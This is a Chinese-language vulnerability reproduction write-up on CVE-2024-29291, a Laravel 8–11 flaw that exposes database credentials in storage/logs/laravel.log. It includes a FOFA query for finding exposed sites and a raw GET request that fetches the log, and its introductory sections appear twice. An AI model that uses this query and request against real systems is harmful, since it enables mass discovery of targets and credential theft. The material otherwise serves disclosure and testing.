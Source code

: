 ## 1. Laravel Framework 8到11版本简介

微信公众号搜索：南风漏洞复现文库
该文章 南风漏洞复现文库 公众号首发

Laravel Framework 8 到 11版本

## 2.漏洞描述

Laravel Framework是Taylor Otwell个人开发者的一款基于PHP的Web应用程序开发框架。Laravel Framework 8 到 11版本存在安全漏洞，该漏洞源于允许远程攻击者发现 storage/logs/laravel.log 中的数据库凭据。

CVE编号:CVE-2024-29291

CNNVD编号:

CNVD编号:

## 3.影响版本

Laravel Framework 8 到 11版本

## 1. Laravel Framework 8到11版本简介

微信公众号搜索：南风漏洞复现文库
该文章 南风漏洞复现文库 公众号首发

Laravel Framework 8 到 11版本

## 2.漏洞描述

Laravel Framework是Taylor Otwell个人开发者的一款基于PHP的Web应用程序开发框架。Laravel Framework 8 到 11版本存在安全漏洞，该漏洞源于允许远程攻击者发现 storage/logs/laravel.log 中的数据库凭据。

CVE编号:CVE-2024-29291

CNNVD编号:

CNVD编号:

## 3.影响版本

Laravel Framework 8 到 11版本

![Laravel Framework 8到11版本存在敏感信息泄露漏洞](Laravel%20Framework%208%E5%88%B011%E7%89%88%E6%9C%AC%E5%AD%98%E5%9C%A8%E6%95%8F%E6%84%9F%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9ECVE-2024-29291.assets/640.png)Laravel Framework 8到11版本存在敏感信息泄露漏洞

## 4.fofa查询语句

app="Laravel-Framework"

## 5.漏洞复现

漏洞链接：https://xx.xx.xx.xx/storage/logs/laravel.log

漏洞数据包：

```
GET /storage/logs/laravel.log HTTP/1.1
Host: xxx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

![图片](Laravel%20Framework%208%E5%88%B011%E7%89%88%E6%9C%AC%E5%AD%98%E5%9C%A8%E6%95%8F%E6%84%9F%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9ECVE-2024-29291.assets/640-1747273432709-1.jpeg)